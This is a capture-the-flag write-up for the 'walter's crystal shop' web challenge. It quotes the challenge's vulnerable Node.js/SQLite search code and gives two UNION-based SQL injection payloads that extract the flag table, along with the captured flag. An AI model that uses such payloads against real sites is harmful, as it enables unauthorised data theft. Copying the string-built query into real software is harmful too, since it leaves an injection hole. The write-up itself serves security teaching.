


# walter's crystal shop
162 solves / 241 points
> My buddy Walter is selling some crystals, check out his shop!

## About the Challenge
We were given a website and source code (You can download the source code [here](walters_crystal_shop.zip)). Searching a crystal name is the only functionality of the website.



## How to Solve?
Looking at the source code, the flag was stored in `flag` table with the column `flag`.
```js
...
  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
...
```
And the website is vulnerable for SQL Injection (SQLite).
```js
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});
```
Focusing on the database query
```sql
SELECT * FROM crystals WHERE name LIKE '%${name}%'
```
And entering `h` in the website's search bar, the query will be like this
```sql
SELECT * FROM crystals WHERE name LIKE '%$h%'
```
With knowledge in SQLite documentation, uniting tables with different columns must have same column name as the one with greater columns. We can enter the search bar with
```
%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf
```
The query would be
```sql
SELECT * FROM crystals WHERE name LIKE '%%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf%'
```

```
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```
## Alternative Solution
Using SQL Injection Payload in search query
```
' union select (select * from flag),2,3-- -
```